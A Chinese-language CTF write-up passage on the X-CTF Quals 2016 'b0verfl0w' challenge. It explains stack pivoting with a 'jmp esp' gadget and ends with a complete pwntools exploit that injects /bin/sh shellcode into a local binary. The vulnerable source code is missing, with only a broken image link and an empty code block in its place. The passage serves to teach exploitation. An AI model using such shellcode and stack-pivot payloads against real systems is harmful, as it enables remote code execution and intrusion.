```C
```

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有 50-0x20-4=14 个字节，所以我们很难执行一些比较好的 ROP。这里我们就考虑 stack pivoting 。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode 并执行。基本利用思路如下

- 利用栈溢出布置 shellcode
- 控制 eip 指向 shellcode 处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启 ASLR 保护，所以我们很难直接知道 shellcode 的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对 esp 进行操作，使其指向 shellcode 处，并且直接控制程序跳转至 esp处。那下面就是找控制程序跳转到 esp 处的 gadgets 了。

```shell
➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
Gadgets information
============================================================
0x08048504 : jmp esp
0x0804836a : ret
0x0804847e : ret 0xeac1

Unique gadgets found: 3
```

这里我们发现有一个可以直接跳转到 esp 的 gadgets。那么我们可以布置 payload 如下

```text
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

那么我们 payload 中的最后一部分改如何设置 esp 呢，可以知道

- size(shellcode+padding)=0x20
- size(fake ebp)=0x4
- size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

```asm
sub esp,0x28
jmp esp
```

所以最后的 exp 如下

```python
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```
